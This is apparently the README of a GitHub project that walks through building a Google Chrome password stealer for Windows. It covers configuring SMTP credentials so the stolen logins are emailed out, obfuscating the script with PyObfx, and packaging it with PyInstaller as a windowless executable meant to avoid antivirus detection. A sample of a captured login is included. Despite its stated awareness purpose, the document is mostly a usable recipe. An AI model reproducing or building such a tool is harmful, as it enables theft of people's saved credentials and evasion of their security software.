


[中文](./README.md) | [English](./README_EN.md)

# InfoSec GoogleChrome

## 1 Introduction

The source code of this repository is modified based on ohyicong and is mainly used to demonstrate the packaging of a program that cannot be detected by antivirus software, stealing passwords saved by users on Google. It reminds everyone to pay attention to information security and the insecurity of saving passwords in Google Chrome.

## 2 Introduction

### 2.1  Environment

* windows
* python3
* Clone the project to your local machine
    ```bash
    git clone https://github.com/lissettecarlr/InfoSec-GoogleChrome.git
    cd InfoSec-GoogleChrome
    ```
* Install dependencies
    ```bash
    pip install -r requirements.txt
    ```
* Install dependencies
    ```bash
    git clone https://github.com/PyObfx/PyObfx.git
    cd PyObfx
    pip install -r requirements.txt
    cd ..
    ```

### 2.2 Configuration

* Create a new secret.yaml file and fill in the email information (to send the obtained data via email)
    ```yaml
        email:
            host : 'Email server address, for example: smtp.163.com'
            user : 'xxx'
            pass : 'If it is a 163 mailbox, enable IMAP/SMTP service in the web version settings to obtain' 
            sender : 'Sender's email'   
            receivers : 'Receiver's email (can be the same as the sender's email)'
    ```    
* Modify the config file to configure whether to send emails and whether to save to a local json file:
    ```yaml
        include : secret.yaml

        output:
        json: 'ON'
        email: 'ON'
    ``

### 2.3 Packaging    
* Obfuscate the code
    ```bash
    python ./PyObfx/PyObfx.py decrypt_chrome_passwords.py
    ```

* Modify (missed by the obfuscator)
    ```python
    #  Example missed by the obfuscation, modify according to your yaml alias, as follows
    oYRvAuKk = mQaPXiYD.load(DA, Loader=yaml.Loader)
    import yaml as mQaPXiYD
    oYRvAuKk = mQaPXiYD.load(DA, Loader=mQaPXiYD.Loader)
    ```

* Package it into an exe file and generate the exe file in the dist directory
    ```bash
    pyinstaller -F --add-data "config.yaml;." --add-data "secret.yaml;." .\decrypt_chrome_passwords_obfx.py --noconsole
    ```

### 2.4 Result

If json and email in the config are enabled, executing the exe will generate output.json in the current directory.
```json
[
    {
        "url": "http://192.168.2.1/cgi-bin/luci/",
        "username": "root",
        "p": "testtest"
    }
]
```

Then you will receive an email:



The number of items listed above depends on the number of password entries you have saved in Google Chrome. I added a temporary entry here, so there is only one entry.


## 3 Antivirus

* Huorong Security
    

* Also found an online virus scan tool
    

